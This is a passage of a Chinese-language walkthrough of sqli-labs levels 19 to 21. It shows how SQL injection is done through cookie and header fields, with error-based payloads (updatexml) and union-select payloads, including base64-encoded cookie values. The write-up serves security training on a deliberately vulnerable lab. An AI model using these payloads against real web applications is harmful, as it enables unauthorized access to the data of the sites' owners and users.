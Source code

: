 ![38](/medias/sqli-labs/38.png)


## Less-19

在尝试`admin`用户登录后，加载数据包，尝试修改`referer`、`user-agent`、`cookie`字段

在`cookie`字段传入单引号时，页面报错`'admin'' LIMIT 0,1`，多出一个单引号

闭合，在`cookie`字段报错注入

```sql
uname=admin' or updatexml(1,concat(0x7e,user(),0x7e),1)#
```

## Less-20

在cookie里传入单引号，页面报错，可以看到爆出的后半句sql语句

![39](/medias/sqli-labs/39.png)

```sql
'admin'' LIMIT 0,1
```

cookie里`uname`字段使用不存在的用户名，可以利用联合查询，存在回显位，`order by 4`可以测试出查询字段长度为3

```sql
uname=a' union select 11,22,33#
```

![40](/medias/sqli-labs/40.png)




## Less-21

登录后，加载数据包`cookie: uname=YWRtaW4%3D`

后面看不出是什么数据，竟然是base64编码，解码后是`admin`

传入一个`admin'`，base64编码后发包，页面报错

![41](/medias/sqli-labs/41.png)

```sql
'admin'') LIMIT 0,1
```

闭合单引号、括号，使用联合查询，uname值进行base64编码

```sql
uname=a') union select 11,22,33#
```

![42](/medias/sqli-labs/42.png)
